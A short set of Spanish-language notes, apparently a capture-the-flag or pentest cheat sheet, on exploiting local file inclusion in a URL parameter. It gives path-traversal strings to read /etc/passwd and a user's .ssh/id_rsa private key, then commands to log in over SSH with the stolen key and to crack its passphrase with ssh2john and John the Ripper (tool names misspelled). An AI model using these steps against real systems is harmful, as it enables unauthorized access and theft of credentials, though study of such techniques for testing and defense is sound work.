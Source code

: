 Cuando en una url se llama a un parametro, es facil que encontremos un LFI
../../../../../../../../../../
intentaremos sacar el passwd (donde se encuentran los usuarios registrados del sistema)
la ruta de passwd /etc/passwd

por tanto pondremos

../../../../../../../../../../etc/passwd en la url como parámetro para ver si podemos acceder a passwd



si encontramos algo en el passwd que contenga /home/{x} ya tenemos un nombre de usuario

una vez que vemos algun usuario podemos buscar el id_rsa
la ruta será 

../../../../../../../../../../home/{usuario}/.ssh/id_rsa


CTRL + u para verlo bien

creamos un fichero con el nombre que queramos y lo pegamos
luego le damos permiso  600 al fichero
chmod 600 ficheroconId_rsa


luego hacemos ssh usando el id_rsa

ssh -i {fichero conRSA y permisos 600} {nombreDeUsuario}@IP



En ocasiones hay que crackear el id_rsa porque para poder conectar por ssh nos pide el salvaconducto
para eso usamos jhontheripper

ssh2jhon {fichero conRSA y permiosos 600} > hash

jhon --wordlist=/usr/share/wordlists/rockyou.txt hash



